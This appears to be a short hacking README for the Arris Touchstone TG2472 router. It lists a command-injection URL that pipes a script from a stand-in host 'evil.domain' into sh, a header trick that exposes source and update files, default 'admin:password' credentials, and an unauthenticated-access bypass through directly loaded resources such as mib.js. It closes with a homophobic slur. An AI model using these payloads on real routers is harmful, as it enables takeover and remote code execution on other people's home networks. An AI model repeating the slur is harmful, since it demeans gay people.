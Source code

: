 # How to hack your Arris Touchstone TG2472

### Test device shite
* HW_REV: 3
* BOOTR: 4.2.0.45
* SW_REV: 9.1.103BY.SIP

### General memes
* `http://192.168.100.1:8080/router.html?wifi_ssids&curl evil.domain/malicious.sh | sh` Runs in userland.
* `curl -H "technician: true" http://192.168.100.1:8080/./` Sources & discarded update files.
* `arTechnicianName` in the devtools console dumps loads of info, regardless of whether or not you're authenticated.
* Default creds: `admin:password`

### Authenticationless access
* *Only tested with default settings.*

Open http://192.168.100.1:8080/mib.js & enjoy your unauthenticated access.
And a round of auplause to Arris for setting authorization cookieswhen a resource is directly loaded.

Note: works with any resource as long as it's loaded directly. (Shit like index.html won't work, don't be a dumbass.)

### More coming soon 😉

### Email me if you want to discuss this faggotry.
3way.pl@gmail.com

